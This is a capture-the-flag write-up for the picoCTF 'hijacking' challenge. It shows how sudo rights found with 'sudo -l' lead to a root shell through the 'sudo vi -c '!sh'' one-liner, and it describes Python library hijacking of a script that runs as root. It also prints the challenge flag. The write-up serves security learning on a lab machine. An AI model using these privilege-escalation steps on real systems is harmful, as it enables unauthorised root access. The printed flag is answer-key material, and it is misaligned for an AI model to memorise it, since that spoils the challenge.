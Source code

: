 ## Challenge: hijacking

## Category: Binary Exploitation

### Description: Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.

### Hints:

#### 1. Check for Hidden files

#### 2. No place like Home:)

Logging into the server, I first ran ls -la and saw a hidden file labeled .server.py, suggesting it is a Python script. Here are its contents:

```python
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

In short, it just collects the IP address of the picoCTF website...not much. After much hammering the server with different ideas and failing, I idscovered a vulnerability on the server. I typed in sudo -l, which shows what operations I can perform with sudo privileges. Here is what the command output:

> Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

So, I have permission to run sudo on vi, a text editor, and I can run .server.py with python3 as root with sudo. I then found a small command that I could use to pop a root shell:

```bash sudo vi -c '!sh'```

To break the command down, vi has a -c argument in which u can supply a command, which in this case is popping a root shell with !sh. Thus, I found the flag file in /root/.flag.txt and got the flag.

Now, when I got the flag, it seemed that I might have used an inintented solution, as it suggests Python library hijacking, which is editing a Python library file or script in order to execute malicious code. The contents of sudo -l suggest I have to power to execute the .server.py script under root conditions, so the intended way seems to be to insert some code in any Python library or script to spit out the flag. I thus implemented some os.system() commands into .server.py, and boom, there's the flag.

#### References: [1](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

### Flag: picoCTF{pYth0nn_libraryH!j@CK!n9_4c188d27}

Solved by giggsterpuku
